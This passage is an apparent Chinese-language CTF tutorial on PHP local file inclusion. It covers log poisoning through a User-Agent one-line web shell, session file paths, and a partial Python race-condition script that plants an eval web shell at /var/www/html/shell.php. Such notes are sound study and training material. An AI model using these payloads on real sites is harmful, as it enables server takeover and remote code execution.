 include是php的语言结构，include()是PHP的函数，都可以包含文件  

'filename' 是要包含的文件的路径和名称

## 1.2 文件操作函数

> 常见的文件包含函数如下1 include **2 require** 3 include_once 4 require_once 5 highlight_file 6 show_source **7 file** **8 readfile** 9 file_get_contents 10 file_put_contents 11 fopen  将一个文件的内容包含到另一个文件  ，在文件包含时可以搭配使用php伪协议打一套组合拳

## 2.1 本地文件包含


### 2.1.1 日志包含

本地文件包含常配合文件上传，图片马，日志包含等进行利用，`文件上传`在这里省略，讲一下日志包含

访问日志（access.log）：  

> Nginx  
> 默认的日志文件目录通常位于/var/log/nginx/access.log 

> Apache 
> - 对于Ubuntu/Debian系统，通常位于/var/log/apache2/access.log
> - 对于CentOS/RHEL系统，通常位于/var/log/httpd/access_log

在f12浏览器调试下，可以看到服务器类型，ctfshow中靶机是nginx

nginx日志文件目录/var/log/nginx/access.log，对于当前网页的相对路径不确定，用../试试，../../../三级时可以访问到日志文件，使用post在报文的UA值中写入一句话木马，或phpinfo函数，试试看能否写入日志文件

### 2.1.2 session包含

[参考](https://www.freebuf.com/vuls/202819.html)

session是网站web的一个无后缀文件，当开启session时，服务器会在临时目录下创建session文件来保存会话信息，文件名格式为sess_PHPSESSID。一般的linux会将session保存在其中的某一个目录下：

```
/var/lib/php/
/var/lib/php/sessions/
/tmp/
/tmp/sessions/
```

一般在/tmp目录下

用户可以自定义创建session，实现**session文件包含----条件竞争脚本**

```python
import io
import requests
import threading

url = '替换url'
sessionid = 'hacker'

def write(session): # 写入临时文件
    while True:
        fileBytes = io.BytesIO(b'a'*1024*50) # 50kb
        session.post(url,
        cookies = {'PHPSESSID':sessionid},
        data = {'PHP_SESSION_UPLOAD_PROGRESS':"<?php file_put_contents('/var/www/html/shell.php','<?php eval($_POST[1]);?>');?>"},
        files={'file':('1.jpg',fileBytes)}
        )

def read(session):
    while True:
```